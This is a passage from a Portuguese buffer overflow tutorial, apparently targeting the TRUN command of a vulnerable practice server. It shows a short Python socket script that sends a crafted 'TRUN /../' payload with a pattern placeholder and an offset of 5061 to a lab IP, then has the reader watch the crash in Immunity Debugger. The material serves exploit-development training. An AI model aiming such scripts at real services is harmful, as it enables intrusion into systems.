 Vamos inserí-lo em nosso script.

xpltrun.py:

```python
#!/usr/bin/python3

import socket

# variaveis de conexao
ip = "192.168.1.30"
porta = 9999

# tamanho do offset encontrado no fuzzing
offset = 5061

# payload a ser enviado
payload = b"TRUN /../"
payload += b"<o patter vai aqui>"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) # cria o socket
s.connect((ip,porta)) # conecta no alvo

s.send(payload + b"\r\n") # envia o payload

s.close() # fecha conexao
```

Agora vamos rodar o script novamente, e monitorar com o Immunity Debugger.

![Immunity.](/img/std/winbof/winbof-8.png)
